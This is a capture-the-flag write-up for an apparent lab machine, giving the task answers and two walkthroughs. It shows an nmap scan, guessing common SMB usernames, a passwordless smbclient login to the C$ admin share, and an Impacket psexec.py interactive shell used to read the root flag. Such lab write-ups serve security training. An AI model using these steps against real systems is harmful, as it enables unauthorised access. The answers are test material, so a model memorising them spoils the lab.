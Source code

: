 ## 1. Questions
- Task 1
	- Which Nmap switch can we use to enumerate machines when our ping ICMP packets are blocked by the Windows firewall?
		- `-Pn`
- Task 2
	- What does the 3-letter acronym SMB stand for?
		- `Server Message Block`
- Task 3
	- What port does SMB use to operate at?
		- `445`
- Task 4
	- What command line argument do you give to `smbclient` to list available shares?
		- `-L`
- Task 5
	- What character at the end of a share name indicates it's an administrative share?
		- `$`
- Task 6
	- Which Administrative share is accessible on the box that allows users to view the whole file system?
		- `C$`
- Task 7
	- What command can we use to download the files we find on the SMB Share?
		- `get`
- Task 8
	- Which tool that is part of the Impacket collection can be used to get an interactive shell on the system?
		- `psexec.py`
- Submit Flag
	- Submit root flag
## 2. Tools
- Linux
- CLI
- nmap
- smbclient
- dir
- more
- git
- psexec.py
## 3. Approach
### nmap scan
- Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -p- -T4 10.129.15.122
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3s
| smb2-time: 
|   date: 2025-09-16T17:40:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
<snip>
```
### Research common SMB usernames
- Resources
	- https://medium.com/@taliyabilal765/smb-enumeration-guide-b2cb5cfb20e6#:~:text=2%2D-,Common%20credentials,-%3A%20Try%20common
	- https://hackviser.com/tactics/pentesting/services/smb
- Example usernames
	- anonymous
	- admin
	- administrator
	- root
### Test SMB connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
- Successfully connected using username `administrator`
```bash
smbclient -L 10.129.15.122 -U administrator
```
- Result
```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```
### Test share connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
```bash
smbclient \\\\10.129.15.122\\C$ -U administrator
```
### Explore files and directories
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
- Flag found in `\Users\Administrator\Desktop`
### Retrieve the flag
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
```cmb
more \Users\Administrator\Desktop\flag.txt
```
## 4. Alternate Approach
### nmap scan
- Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -p- -T4 10.129.15.122
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3s
| smb2-time: 
|   date: 2025-09-16T17:40:08
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
<snip>
```
### Research common SMB usernames
- Resources
	- https://medium.com/@taliyabilal765/smb-enumeration-guide-b2cb5cfb20e6#:~:text=2%2D-,Common%20credentials,-%3A%20Try%20common
	- https://hackviser.com/tactics/pentesting/services/smb
- Example usernames
	- anonymous
	- admin
	- administrator
	- root
### Test SMB connection (passwordless)
- Useful resources
	- https://github.com/fortra/impacket
	- https://github.com/fortra/impacket/tree/master/examples#:~:text=last%20year-,psexec.py,-Techdebt%20examples%20bootstrapping
#### Clone impacket repo
```bash
git clone https://github.com/fortra/impacket.git
```
#### Move to script directory
```bash
cd impacket/examples
```
#### Run the script
- Successfully connected to SMB server using username `administrator`
```bash
psexec.py administrator@10.129.15.122
```
### Explore files and directories
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
- Flag found in `\Users\Administrator\Desktop`
### Retrieve the flag
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
```cmb
more \Users\Administrator\Desktop\flag.txt
```
